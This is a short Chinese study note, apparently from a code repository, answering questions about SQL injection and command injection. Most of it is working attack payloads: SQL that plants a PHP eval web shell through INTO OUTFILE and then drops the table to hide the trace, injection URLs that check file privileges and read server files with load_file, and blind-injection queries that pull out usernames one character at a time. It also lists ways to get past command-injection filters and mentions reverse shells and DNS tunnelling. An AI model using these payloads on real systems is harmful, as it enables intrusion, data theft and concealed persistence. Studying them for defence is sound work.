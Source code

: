 # **SQL注入与命令执行**

## 1.思考SQL注入采用什么方法植入WebShell？
一般过程：
先建立一个数据表

``Create TABLE a (cmd text NOT NULL);``

写入往里面写个一句话

``Insert INTO a (cmd) VALUES('<?php @eval($_POST[p45])?>');``

把这个数据表的内容导出来

``select cmd from a into outfile '路径/out.php';``

删掉这个数据库避免被发现

``Drop TABLE IF EXISTS a;``

 **大体思路是将shell先注入到库中，然后再通过各种途径导出到文件中**

## 2.SQL注入能否查看文件？

**mysql的默认家目录的属主属组都是mysql,so.....**

**0x01: 先判断是否有权限：**

``127.0.0.1/test.php?id=1 and (select count(file_priv) from mysql.user) >0--``
>file_priv:权限表，确定用户是否可以执行SELECT INTO OUTFILE和LOAD DATA INFILE命令。**[更多权限表](http://www.cnblogs.com/kissdodog/p/4173337.html)**

**0x02:使用load_file读文件**

``127.0.0.1/test.php?id=-1 union select 1,2,load_file('D:/wamp/www/test.txt')--``

D:/wamp/www/test.txt可替换为十六进制的.

``127.0.0.1/test.php?id=1 union select 1,2,load_file(char('0x443A2F77616D702F7777772F746573742E747874'))``


## 3.思考SQL注入盲注的原理以及利用方法

>sql盲注是sql注入的一种，之所以称为盲注是因为它不会根据你sql注入的攻击语句返回你想要知道的错误信息。

利用（数字型的注入为例）：

因为是盲注，一般表现可能只是返回 **true** 或者是 **false**，所以可以一步步猜测目标数据库的内容具体是啥，比如判断是否存在名字叫admin的表：

``127.0.0.1/test.php?id=1 and exists(select count(*) from admin) ``

此时，如果页面并没有报错（或者显示空白）一般就说明存在此表，当然可以验证一下其他名字

``127.0.0.1/test.php?id=1 and exists(select count(*) from xjbluanshu) ``

以上这句明显是不存在的，对比两句就能得出结果。。。

当然，对于用户名及密码我们可以先进行字符串长度的判断再进行逐个字符的猜测

```
?id=1 and (select count(*) from [user]) >=5 //查询表里有多少条数据（此处为>=5）
?id=1 and (select len(name) from [user]) =5  //查询用户名长度（此处为5）
?id=1 and (select ASCII(SUBSTRING(name,1,1)) from [user])= 97 //如果返回true则这说明 第一位 ASCII值为 97，对应字母 a以此类推 ，第2位，第3位 .....第5位，在这里主要用了 ASCII  和 SUBSTRING 函数
```
当然了，密码也是一样的道理

..............

**这过程明明就是重复的机械动作，为何不交给脚本去实现呢......**

## 4.查资料都有哪些绕过命令注入过滤技巧？

1.使用通配符
2.使用字符串拼接
3.使用上文中提到的先对内容进行编码再解码

## 5.检测命令注入漏洞时没有回显怎么办？

人为留下一些回显点，如：
1.反弹一个shell
2.DNS隧道
3.web日志
4........

## 6.怎么通过命令注入漏洞反弹shell？

**[这是一个方法](https://www.cnblogs.com/KevinGeorge/p/8120226.html)**,没试过，有机会玩玩
